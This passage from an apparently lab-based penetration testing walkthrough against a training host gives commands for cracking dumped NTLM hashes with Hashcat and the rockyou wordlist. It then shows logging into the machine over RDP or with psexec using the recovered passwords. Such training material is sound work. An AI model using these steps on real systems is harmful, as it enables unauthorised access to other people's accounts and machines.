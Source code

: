 - **Explanation**: We run John with the `rockyou.txt` wordlist to improve our chances of cracking the password. This wordlist contains a large number of common passwords.

---

#### 5. Cracking NTLM Hashes with Hashcat

An alternative to John the Ripper is **Hashcat**, a GPU-based password-cracking tool.

Start Hashcat with the following command:

```bash
hashcat -a3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

- **Explanation**: 
  - `-a3`: Specifies attack mode (brute-force in this case).
  - `-m 1000`: Tells Hashcat that the hash type is NTLM.
  - `hashes.txt`: The file containing the NTLM hashes.
  - `/usr/share/wordlists/rockyou.txt`: The wordlist used for cracking.

Once passwords are recovered, you can use them to log in to the system via various methods.

---

#### 6. Logging in via RDP or Psexec

After cracking the NTLM hashes, we can use the credentials to access the system via RDP or other methods. First, we use Nmap to identify open services (like RDP or SMB):

```bash
nmap -sV demo.ine.local
```

If RDP is open, log in using the cracked credentials:

```bash
xfreerdp /u:Administrator /p:password /v:demo.ine.local
```

- **Explanation**: `xfreerdp` is a client for connecting to remote desktops using the RDP protocol. We specify the username (`/u:Administrator`), password (`/p:password`), and the target machine (`/v:demo.ine.local`).

Alternatively, you can use Psexec in Metasploit for remote command execution:

```bash
psexec.py Administrator@demo.ine.local
```

- **Explanation**: This allows us to execute commands on the target system using the credentials obtained from cracking the NTLM hashes.

---

#### Summary

In this demo, we:
1. Scanned and exploited a vulnerable Windows server.
2. Dumped NTLM password hashes using Metasploit.
3. Cracked the hashes using John the Ripper and Hashcat.
4. Used the cracked credentials to log in via RDP or execute commands remotely via Psexec.
